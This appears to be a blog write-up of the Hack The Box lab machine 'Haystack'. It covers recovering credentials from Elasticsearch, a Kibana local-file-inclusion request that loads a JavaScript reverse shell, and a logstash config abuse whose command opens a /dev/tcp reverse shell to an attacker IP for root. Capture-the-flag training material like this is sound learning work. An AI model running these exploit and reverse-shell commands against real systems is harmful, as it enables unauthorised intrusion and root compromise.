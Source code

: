 ```yaml
---
layout: post
title:  Haystack
date:   2019-11-08
categories: htb-writeup
---
```


{:.text-centered}
## HAYSTACK@HTB

![Banner](../../../../assets/img/haystack/Banner.png){:.image-centered}

Haystack is an easy box from hackthebox. Ok let’s start.
#### Quick Hack:
__User:__  Port Scan > 80/http >download image > run strings > base64 –decode.
9200/http > search in quote db > base64 –decode > user & password > ssh as security > user.txt

__Root:__  security > kibana lfi >rev shell as kibana >/etc/logstash/conf.d> grok filter > put file in /opt/kibana/logstash_*>rev shell as root> root.txt

### US3R
Run nmap to find open ports. Nmap will show result like this:
![nmap scan](../../../../assets/img/haystack/nmap.png){:.image-left}
We have open ports; 22 is ssh, 80 is http, 9200 also http. Open 80 in browser and there is picture of needle in haystack, download it, run strings against it. There is a base64 encoded string in the last line,save it in a file and decode it.

![Base64](../../../../assets/img/haystack/string.png){:.image-left}
 
    base64 –decode file.b64.

it is a line in Spanish, use google translator if you don’t know Spanish (the whole box is in Spanish, learning some Spanish is extra gain).
The line says needle in a haystack is the “key”. Keep it; it will help in future.  
Let's look at port 9200. It says it is elasticsearch.

![9200 port](../../../../assets/img/haystack/elasticsearch.png){:.image-left}

Run gobuster in the background on port 9200.

    gobuster dir –u http://10.10.10.115:9200/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt
 
![gobuster](../../../../assets/img/haystack/gobuster.png){:.image-left}

Let’s look at those urls. It dumps some data in Spanish, not very useful. Go for elasticsearch and ELK stash 
[documentation](https://www.elastic.co/what-is/elk-stack) and try to figure out how to dump data from the database. After some study I found this search can help to pass query:
    
    http://10.10.10.115:9200/_search?q=

 We found “clave” (key in spanish) in the needle image, so let’s do this:

    http://10.10.10.115:9200/_search?q=quote:clave

![key](../../../../assets/img/haystack/clave.png){:.image-left}
 
There are two base64 encoded strings, decode it. It is
>  user:security  
> pass:spanish.is.key

Login into ssh with those credentials, and get user flag.

![user](../../../../assets/img/haystack/ssh.png){:.image-left}
 

### R00T
Now run linenum to enumerate the box. Look closely, logstash is running as root that is not normal, it should run as logstash. But user security can’t read write logstash config files but kibana can do that. So, not let’s try to be kibana. 
Search on google for kibana vulnerabilities, and you will find LFI (local file inclusion) vulnerability
[Read more](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/)
The system is running node.js so download a js reverse shell payload and put it into /tmp folder.

![shell](../../../../assets/img/haystack/payload.png){:.image-left}

Now run this:

    curl “http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/rev.js”

Set a netcat listener on 9001, as per script, you will get a reverse shell as kibana (you may not a get a shell sometimes and it is frustrating, form url properly or change name of the .js file and try again, it will work).
 
![kibana](../../../../assets/img/haystack/kibana.png){:.image-left}

Now go to 

    etc/logstash/conf.d 

folder, there are 3 files, input.conf, filter.conf and output.conf. 
 
![config files](../../../../assets/img/haystack/conf.d.png){:.image-left}

These files say a file in /opt/kibana with name logstash_* will be executed as root user if it is structured properly. Create a file in /opt/kibana with name logstash_hello :

``` sh
echo ‘Ejecutar comando : bash –i >& /dev/tcp/10.10.15.44/9005 0>&1’ > /opt/kibana/logstash_hello
```
Set a netcat listener and wait a while; get the reverse shell as root.  That’s it. (ooh, I lost that screenshot, a I don’t want to do this annoying box again!!)
Hope you enjoyed; Happy Hacking.